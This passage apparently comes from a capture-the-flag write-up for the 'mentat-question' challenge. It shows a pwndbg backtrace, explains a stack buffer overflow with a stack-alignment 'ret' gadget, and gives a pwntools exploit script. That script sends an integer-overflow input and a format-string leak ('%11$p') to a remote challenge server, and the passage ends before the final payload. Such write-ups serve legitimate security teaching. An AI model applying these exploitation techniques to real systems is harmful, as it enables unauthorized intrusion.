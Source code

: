 ```bash
────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────
 ► 0   0x5555555552bb calculate+204
   1   0x55555555545c main+337
   2   0x7ffff7dabd90 __libc_start_call_main+128
   3   0x7ffff7dabe40 __libc_start_main+128
   4   0x555555555105 _start+37
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>

```

It looks like the buffer is at an offset `0x10` from the base pointer. So we must write in the return address of the `secret()` function at an offset `0x18` in the buffer overflow payload. However, this doesnt seem to work as expected. Upon attaching gdb to the process and examining the execution flow, we observe a stack alignment issue! Hence, we must add an arbitrary `ret` instruction before the `secret()` return address in our payload. 

You can either use ROPgadget to add an arbitrary `ret` or use `pwn.ROP` to automate the rop gadget search process. I manually picked up a `ret` instruction. Here's the exploit!

```py {filename=exploit.py, linenos=table}
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './mentat-question'
elf = context.binary = ELF(exe, checksec=True)
# libc = './lib/libc.so.6'
# libc = ELF(libc, checksec=False)

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

host, port = 'challs.umdctf.io', 32300

def initialize(argv=[]):
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

r = initialize()
# =========================================================
#                         EXPLOITS
# =========================================================

first = False

def integer_overflow(first):
    if not first:
        r.sendlineafter(b"today?", b"Division")

    r.sendlineafter(b"divided?", b"1\n4294967296")
    return 

integer_overflow(first)
first = True

r.sendlineafter(b"again?", b"Yes %11$p")

```